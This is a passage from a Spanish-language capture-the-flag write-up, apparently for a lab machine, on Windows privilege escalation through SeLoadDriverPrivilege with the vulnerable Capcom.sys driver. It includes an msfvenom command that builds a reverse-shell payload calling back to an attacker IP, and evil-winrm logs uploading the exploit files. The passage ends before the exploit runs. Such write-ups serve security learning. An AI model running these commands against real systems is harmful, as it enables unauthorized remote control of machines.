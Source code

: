 ```shell
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Haciendo uso de este [PoC](https://github.com/JoshMorrison99/SeLoadDriverPrivilege) , podemos ahorrarnos mucho trabajo. TarLogic hizo un [post](https://www.tarlogic.com/blog/seloaddriverprivilege-privilege-escalation/) de la explotación de este caso muy interesante.

Primero, con `msfvenom`, nos creamos un payload de reverse shell para windows x64.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.71 LPORT=443 -f exe -o rev.exe`

Ahora, nos descargamos el repositorio anteriormente mencionado, debemos de subir los archivos `Capcom.sys` , `LoadDriver.exe` , `rev.exe` y `ExploitCapcom.exe`

Como tenemos una consola con `evil-winrm` podemos subir directamente los archivos ya que es una funcionalidad adicional que incluye esta herramienta.

```cmd
*Evil-WinRM* PS C:\Users\svc-print\privesc> upload rev.exe
                                        
Info: Uploading /home/pointedsec/Desktop/fuse/content/rev.exe to C:\Users\svc-print\privesc\rev.exe
                                        
Data: 9556 bytes of 9556 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-print\privesc> upload SeLoadDriverPrivilege/Capcom.sys
                                        
Info: Uploading /home/pointedsec/Desktop/fuse/content/SeLoadDriverPrivilege/Capcom.sys to C:\Users\svc-print\privesc\Capcom.sys
                                        
Data: 14100 bytes of 14100 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-print\privesc> upload SeLoadDriverPrivilege/LoadDriver.exe
                                        
Info: Uploading /home/pointedsec/Desktop/fuse/content/SeLoadDriverPrivilege/LoadDriver.exe to C:\Users\svc-print\privesc\LoadDriver.exe
                                        
Data: 20480 bytes of 20480 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-print\privesc> upload SeLoadDriverPrivilege/ExploitCapcom.exe 
                                        
Info: Uploading /home/pointedsec/Desktop/fuse/content/SeLoadDriverPrivilege/ExploitCapcom.exe to C:\Users\svc-print\privesc\ExploitCapcom.exe
                                        
Data: 357716 bytes of 357716 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-print\privesc> dir


    Directory: C:\Users\svc-print\privesc


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
```